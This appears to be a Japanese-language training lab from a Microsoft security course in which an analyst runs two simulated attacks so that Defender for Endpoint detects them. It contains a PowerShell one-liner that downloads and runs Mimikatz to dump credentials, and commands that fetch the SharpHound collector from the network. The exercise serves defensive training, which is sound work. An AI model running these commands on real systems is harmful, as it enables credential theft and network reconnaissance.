

# モジュール 2 - ラボ 1 - 演習 2 - Microsoft Defender for Endpoint を使用した攻撃の軽減

## ラボ シナリオ



あなたは Microsoft Defender for Endpoint を実装している企業で働くセキュリティ オペレーション アナリストです。あなたの上司は、いくつかのデバイスをオンボードして、セキュリティ オペレーション (SecOps) チームの応答手順で必要な変更に関する情報を提供しようとしています。

Defender for Endpoint の攻撃緩和機能を確認するため、シミュレーション攻撃を 2 回行います。

>**ノート:** **[interactive lab simulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** このラボを自分のペースで確認できます。ホスト型のラボと多少の違いはありますが、主要な概念とアイデアは同じです。

### タスク 1: 攻撃シミレーション

このタスクでは、**WIN1** で **PowerShell** を使用して 2 つの **シミュレートされた** 攻撃を実行し、Microsoft Defender for Endpointの機能を調べます。
 
「攻撃 1: Mimikatz - 資格情報のダンプ」
 
1. *WIN1* マシンで、検索バーに **Command** と入力し、右クリックして**[管理者として実行]** を選択します。
 
1. 次のコマンドをコピーして、**管理者:コマンドプロンプト**ウィンドウに貼り付け、**Enter**を押して実行します。
 
    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```
 
1. *アクセスが拒否されました*というメッセージと、「Microsoft Defender ウイルス対策、Windows セキュリティ ウイルス、および脅威の防止」から *脅威が見つかりました*というポップアップ メッセージが表示されます。
 
1. **管理者:コマンドプロンプト**ウィンドウを終了するには、**exit** と入力して **Enter**を押します。
 
「攻撃 2:ブラッドハウンド - コレクション」
 
1. *WIN1* マシンで、検索バーに **PowerShell** と入力し、右クリックして**[管理者として実行]** を選択します。
 
1. 次のコマンドをコピーして **管理者: Windows PowerShell** ウィンドウに貼り付け、**Enter** を押して実行します。
 
    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```
 
    >**Note:** コマンドを 1 つずつコピー、貼り付け、実行することをお勧めします。*メモ帳*を開き、コマンドを一時ファイルにコピーして、これを実行できます。最初のコマンドは、*Atom Red Team* フォルダーがあるのと同じフォルダーに *ExternalPayloads* という名前のフォルダーを作成します。2 番目のコマンドは、*BloodHound* GitHub リポジトリから *SharpHound.ps1* ファイルをダウンロードし、*ExternalPayloads* フォルダーに保存します。
 
1. 「Windowsセキュリティウイルスと脅威の保護」から「脅威が見つかりました」というポップアップメッセージが表示されます。
 
1. 次のコマンドをコピーして **[管理者: Windows PowerShell]** ウィンドウに貼り付け、**Enter** を押して実行します。
 
    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```
 
1. 出力が *True* の場合、マルウェア ペイロード ファイルはMicrosoft Defender ウイルス対策によって削除されていません。出力が *False* の場合、マルウェア ペイロード ファイルはMicrosoft Defenderウイルス対策によって削除されています。上矢印キーを使用して、出力が *False* になるまでコマンドを繰り返します。

1. Microsoft Defender XDRポータルを開き、インシデントメニューにインシデントが生成されることを確認します。

1. インシデント名に表示されているアラートをクリックし、アラート、デバイス、ユーザー、調査、証拠と対応、グラフ タブの内容を確認します。

## これでラボは完了です。
